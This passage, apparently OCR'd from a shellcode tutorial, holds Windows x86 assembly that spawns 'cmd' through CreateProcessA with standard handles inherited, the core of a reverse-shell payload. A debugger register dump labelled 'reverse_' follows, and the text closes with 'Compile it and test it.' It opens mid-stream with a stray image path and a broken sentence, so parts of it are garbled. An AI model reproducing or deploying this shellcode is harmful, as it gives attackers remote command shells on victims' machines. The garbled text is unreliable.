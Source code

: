```s``` is a descriptor identifying an unconnected socket.<br>
	loop push_loop                  ; keep looping untill we have pushed enough nulls
	mov word [esp + 0x3C], 0x0101   ; Set the STARTUPINFO Structure's dwFlags to STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
	mov byte [esp + 0x10], 0x44
	lea ecx, [esp + 0x10]  ; Set EAX as a pointer to our STARTUPINFO Structure

  	;perform the call to CreateProcessA
	push esp               ; Push the pointer to the PROCESS_INFORMATION Structure 
	push ecx               ; Push the pointer to the STARTUPINFO Structure
	push edi               ; The lpCurrentDirectory is NULL so the new process will have the same current directory as its parent
	push edi               ; The lpEnvironment is NULL so the new process will have the same enviroment as its parent
	push edi               ; We dont specify any dwCreationFlags 
	inc edi                ; Increment edi to be one
	push edi               ; Set bInheritHandles to TRUE in order to inheritable all possible handle from the parent
	dec edi                ; Decrement edi back down to zero
	push edi               ; Set lpThreadAttributes to NULL
	push edi               ; Set lpProcessAttributes to NULL
	push ebx               ; Set the lpCommandLine to point to "cmd",0
	push edi               ; Set lpApplicationName to NULL as we are using the command line param instead
	call eax

    ; EAX 00000001
    ; ECX 766BF6B0 kernel32.766BF6B0
    ; EDX 002E0174
    ; EBX 0022FDA8 ASCII "cmd"
    ; ESP 0022FD54
    ; EBP 766B1837 kernel32.GetProcAddress
    ; ESI 76660000 kernel32.76660000
    ; EDI 00000054
    ; EIP 0040115F reverse_.0040115F

getExitProcess:
	add esp, 0x010 				; clean the stack
	push 0x61737365				; asse
	sub word [esp + 0x3], 0x61  ; asse -a 
	push 0x636F7250				; corP
	push 0x74697845				; tixE
	push esp
	push esi
	call ebp                    ; GetProcAddress(kernel32.dll, ExitProcess)

	xor ecx, ecx
	push ecx
	call eax
```

Compile it and test it

